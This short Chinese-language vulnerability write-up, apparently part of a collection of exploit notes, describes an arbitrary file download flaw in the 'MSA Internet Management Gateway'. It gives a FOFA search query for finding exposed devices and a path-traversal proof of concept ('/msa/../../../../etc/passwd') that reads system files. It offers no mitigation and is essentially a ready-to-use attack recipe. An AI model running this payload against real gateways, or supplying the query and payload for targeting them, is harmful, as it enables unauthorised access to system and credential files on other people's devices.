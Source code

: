 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

```
MSA 互联网管理网关
```

## FOFA

```
"互联网管理网关"
```

## 漏洞复现

登录页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110916716.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110916705.png)